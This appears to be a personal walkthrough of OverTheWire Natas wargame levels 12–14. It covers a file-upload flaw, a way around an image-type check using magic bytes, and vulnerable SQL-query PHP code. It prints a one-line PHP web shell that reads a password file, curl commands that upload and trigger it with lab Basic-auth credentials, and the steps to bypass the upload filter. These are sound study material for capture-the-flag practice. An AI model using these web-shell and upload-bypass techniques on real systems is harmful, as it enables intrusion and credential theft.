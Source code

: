 
One thing that stuck out is that genRandomString() is called twice. First initially in the hidden input part of the form, then by makeRandomPath(). That stood out as odd. It was not immediately evident where the next passcode was. But if you follow the chain (`if array_key_exists("filename",$_POST)...` that filename (which is the first randomly generated one) is passed through. Most particularly that extension is passed through. This means it doesn't matter what filetype is uploaded, it will take on that random string and appended ".jpg" file extension.

Anyway, this code just appears to check that filename exists (which is true after a file is chosen) then it generates a different random string and appends that .jpg to it as described above, so even if you choose to upload a php script, it won't be executed (I assume the browser is reliant on that file extension).

My strategy was to upload my php script (`<?php system('cat /etc/natas_webpass/natas13'); ?>` ) then before clicking submit, opening up the dev tools and changing the 1st rando file extension to ".php". Admittedly, I didn't fully figure this out on my own.

my friend did the same with this curl command:
```sh
curl 'http://natas12.natas.labs.overthewire.org/index.php' \
  -X 'POST' \
  -H 'Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==' \
  -H 'Content-Type: multipart/form-data' \
  -F 'filename=whatever.php' \
  -F 'uploadedfile=@get_pass.php;' \
```

From here visit the site or be cool and get it with curl again (don't forget to add te authorization block)

`curl http://natas12.natas.labs.overthewire.org/upload/imx0qbstyu.php -H 'Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw=='`

13 -> 14

The same except it has a line to check filetype. The php that accomplishes this is
```php 
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```
The way this appears to work is by checking the "magic" hex codes in the front which indicate filetype. [There are many](https://en.wikipedia.org/wiki/List_of_file_signatures),here's one for jpg: `FF D8 FF EE`. A command line tool called simply `hexeditor` can be used to add these 4 to the front (`hexeditor -b <file>` to open in buffer mode from which new byes can be added with ctrl-A)


## :::::::::::::: SQL inection ::::::::::::::::

Here's a php script that references a MySQL database:

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
```